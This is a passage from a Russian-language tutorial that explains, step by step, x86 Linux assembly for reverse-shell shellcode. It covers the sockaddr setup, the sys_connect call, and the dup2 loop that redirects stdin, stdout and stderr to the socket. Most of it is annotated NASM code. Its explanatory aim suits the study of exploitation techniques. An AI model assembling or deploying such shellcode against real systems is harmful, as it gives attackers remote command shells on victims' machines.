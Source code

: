 `ebx` содержит 0x1 в этот момент, так как туда был загружен `socket_type` во время вызова `socket()`, поэтому после увеличения `ebx` он должен стать `0x2` (аргумент `sin_family`):

```nasm
inc  ebx         ; ebx = 0x02
push word bx     ; sin_family = AF_INET
```

Затем сохраняем указатель стека на эту структуру sockaddr в `ecx`:

```nasm
mov  ecx, esp    ; перемещаем указатель стека в структуру sockaddr
```

Теперь:
```nasm
push 0x10        ; addrlen = 16
push ecx         ; const struct sockaddr *addr
push edx         ; sockfd
mov  ecx, esp    ; перемещаем указатель стека в ecx (структура sockaddr_in)
inc  ebx         ; sys_connect (0x3)
int  0x80        ; системный вызов (exec sys_connect)
```

### перенаправление stdin, stdout и stderr через dup2

Теперь устанавливаем начальное значение счетчика и сбрасываем `ecx` для цикла:             

```nasm
push 0x2         ; устанавливаем счетчик на 2
pop  ecx         ; обнуляем ecx (сбрасываем для цикла newfd)
```

`ecx` теперь готов для цикла, просто сохраняем файловый дескриптор сокета в `ebx`, так как он потребуется при вызове системного вызова dup2:

```nasm
xchg ebx, edx    ; сохраняем sockfd
```

Затем `dup2` принимает 2 аргумента:         
```cpp
int dup2(int oldfd, int newfd);
```

Где `oldfd` (ebx) - это файловый дескриптор клиентского сокета, а `newfd` используется для stdin(0), stdout(1) и stderr(2):
```cpp
for (int i = 0; i < 3; i++) {
    // dup2(sockftd, 0) - stdin
    // dup2(sockfd, 1) - stdout
    // dup2(sockfd, 2) - stderr
    dup2(sockfd, i);
}
```

Таким образом, системный вызов `sys_dup2` выполняется три раза в цикле на основе `ecx`:       
```nasm
dup:
  mov  al, 0x3f    ; sys_dup2 = 63 = 0x3f
  int  0x80        ; системный вызов (exec sys_dup2)
  dec  ecx         ; уменьшаем счетчик
  jns  dup         ; пока SF не установлен -> переход к dup
```
